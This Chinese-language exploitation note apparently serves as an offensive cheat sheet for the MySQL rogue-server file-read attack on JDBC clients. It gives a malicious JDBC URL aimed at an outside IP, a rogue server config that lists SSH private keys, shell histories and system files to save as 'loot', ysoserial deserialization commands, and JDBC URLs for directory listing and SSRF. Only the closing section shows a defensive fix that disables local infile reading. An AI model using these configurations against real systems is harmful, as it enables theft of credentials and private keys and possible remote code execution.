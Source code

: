 

## [**MySQL** 服务端恶意读取客户端任意文件漏洞]

<https://cloud.tencent.com/developer/article/1818089>

如果java的mysql的jdbc连接信息可以自定义，可以修改mysql的ip和连接配置如：
```
test?allowLoadLocalInfile=true&allowUrlInLocalInfile=true#
jdbc:mysql://1.92.88.247:3306/test?allowLoadLocalInfile=true&allowUrlInLocalInfile=true#
root
password

代码：
DriverManager.getConnection();
```
可以使用下方的项目伪造一个mysql服务，从而读取客户端的文件。
<https://github.com/rmb122/rogue_mysql_server>


^
```
host: 0.0.0.0
port: 3306
version_string: "10.4.13-MariaDB-log"

file_list: ["/root/.bash_history","C:/boot.ini","/var/log/mysqld.log","/etc/os-release","/root/.mysql_history","/etc/issue","/root/.ssh/id_rsa","/var/log","/etc/ssh/sshd_config","/etc/crontab","/root/.ssh/authorized_keys","/root/.ssh/id_rsa.pub"]
save_path: ./loot
always_read: true
from_database_name: false
max_file_size: 0

auth: false
users:
  - root: root
  - root: password

jdbc_exploit: false
always_exploit: false
ysoserial_command:
  cc4: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections4", 'touch /tmp/cc4']
  cc7: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections7", 'touch /tmp/cc7']

```
```
/var/log/mysqld.log 可能有mysql密码
```

^
## **列目录和SSRF**
另外如果需要读文件, mysql-connector-java 支持使用 `file://` 列目录 (当然其他协议, 例如 http 来 SSRF 也是可以的), 但是需要在 `allowLoadLocalInfile` 为 true 之外, 额外指定 `allowUrlInLocalInfile` 为 true, 详情见[这里](https://github.com/mysql/mysql-connector-j/blob/dd61577595edad45c398af508cf91ad26fc4144f/src/main/protocol-impl/java/com/mysql/cj/protocol/a/NativeProtocol.java#L1877)\
E.g.

* 列 `/` 目录, `jdbc:mysql://127.0.0.1:3306/file%3A%2F%2F%2F?allowLoadLocalInfile=true&allowUrlInLocalInfile=true`
* SSRF `http://127.0.0.1:25565`, `jdbc:mysql://127.0.0.1:3306/http%3A%2F%2F127.0.0.1:25565?allowLoadLocalInfile=true&allowUrlInLocalInfile=true`




^
## **MySQL JDBC RCE 姿势**

mysql-connector-java >= 8.0.20, >= 5.1.49 中不可用。连接回显的时候可以看版本。
利用的jdbc反序列化RCE。
<https://github.com/mysql/mysql-connector-j/commit/de7e1af306ffbb8118125a865998f64ee5b35b1b>\
<https://github.com/mysql/mysql-connector-j/commit/13f06c38fb68757607c460789196e3f798d506f2>


## **修复读文件**
原生的场景下可以使用预先定义的Properties将URL中的属性覆盖掉，就可以关闭本地文件读取以及URL读取了。




MySQL 8 及更高版本中，默认情况下出于安全考虑，`LOAD DATA LOCAL INFILE` 命令是被禁用的，即关闭allowloadlocalinfile参数。

```
String driver = "com.mysql.jdbc.Driver";
String DB_URL = "jdbc:mysql://127.0.0.1:3306/test?user=test&maxAllowedPacket=655360&allowLoadLocalInfile=true";
Class.forName(driver);
Properties properties = new Properties();
properties.setProperty("allowLoadLocalInfile","false");
properties.setProperty("allowUrlInLocalInfile","false");
properties.setProperty("allowLoadLocalInfileInPath","");
Connection conn = DriverManager.getConnection(DB_URL,properties);
```

